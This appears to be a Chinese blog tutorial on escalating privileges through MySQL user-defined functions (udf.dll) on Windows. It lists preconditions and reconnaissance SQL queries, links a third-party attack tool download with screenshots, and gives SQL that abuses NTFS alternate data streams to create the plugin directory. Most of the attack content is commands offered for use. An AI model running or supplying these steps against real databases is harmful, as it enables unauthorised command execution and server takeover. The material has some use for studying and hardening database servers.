 # 1、 前提

1. 必须是root权限（主要是得创建和抛弃自定义函数）

2. secure_file_priv=(未写路径)

3. 将udf.dll文件上传到MySQL的plugin目录下（这里以MySQL>=5.1为例）

# 0x02 提权中用到的查询语句

```bash
SELECT version(); #查询数据库版本
SELECT @@basedir; #查询MySQL的安装目录
SELECT user();  #查询当前用户
SHOW VARIABLES LIKE '%plugins%';  #查找是否有plugins目录
show variables like '%compile%'; #查看数据库位数
```



# 0x03 工具

**暗月工具**

```
下载地址：https://pan.baidu.com/s/1EoGKX6bksOCFGgonFvfgYw 提取码：8ng0
个人感觉这个工具依然需要在plugin文件夹存在的前提下
打开工具页面如下：
```

![img](https://img2020.cnblogs.com/blog/1937992/202005/1937992-20200529231048405-47322894.png)

![img](https://img2020.cnblogs.com/blog/1937992/202005/1937992-20200529231307617-343313896.png)

 

 

 接下来直接执行命令即可

![img](https://img2020.cnblogs.com/blog/1937992/202005/1937992-20200529231454919-726445555.png)

 

 这工具真的是太香了

ps: 

这里补充一点，

这里的关键是lib目录下没有plugin文件夹，得突破限制创建文件夹
还有一种创建plugin文件夹的方式（我没成功过，有缘的小伙伴可能会成功）
一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）

select @@basedir; //查找到mysql的目录

select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录

select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; //利用NTFS ADS创建plugin目录